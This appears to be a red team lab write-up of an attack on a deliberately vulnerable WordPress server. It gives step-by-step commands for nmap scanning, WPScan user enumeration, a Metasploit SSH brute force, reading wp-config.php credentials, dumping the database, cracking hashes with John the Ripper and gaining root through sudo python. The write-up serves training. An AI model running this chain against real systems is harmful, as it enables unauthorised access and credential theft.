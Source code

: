 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
  - Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation
  - 

## Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

------
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - Brute force attacking a weak password
      
#### Method
  - First we enumerated the user accounts by exploiting the vulnerable WordPress site using WPScan
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)

  - With the user accounts we can use Metasploit's SSH Login Check Scanner module and the rockyou wordlist to brute force the password
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
  - After obtaining the password: `michael` we are able to SSH into `Target 1`
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
  - From here we used the follow command to locate `flag1`
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag2` using the following command
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
![flag2](images/flag2.png)

-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
  - Using the existing access we were able to locate `flag3` by harvesting the WordPress database login credentials
```
$ cat /var/www/html/wordpress/wp-config.php
```
![wp_config](images/wp_config.png)

  - With these credentials we dumped the entire database using the following command
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
  - After dumping we ran a search for `flag3`
```
$ grep “flag3” dump
```
![flag4](images/flag3z.png)

> Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
  - Logging into the WordPress database we were able to obtain the unsalted hash for the user account `steven`
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
> select * from wp_users;
```
![wp_users](images/wp_users.png)
```
> exit
```
```
$ exit
```
  - With the hash we created a `hash.txt` for use with John the Ripper
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
![john hash](images/john_hash.png)
  - After cracking the password we were able to login as `steven`
```
$ ssh steven@192.168.1.110
```
  - When checking `steven`'s privileges we noticed he has sudo access to `/usr/bin/python`
```
$ sudo -l
```
![steven_sudo](images/sudo.png)
  - With this we were able to escalate to root
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
  - Finally running the following command for `flag4`
```
$ find / -iname "flag4*" 2> /dev/null
```
![find_flag4](images/find_flag4.png)
```
$ cat /root/flag4.txt
```
![flag4](images/flag4.png)

-----


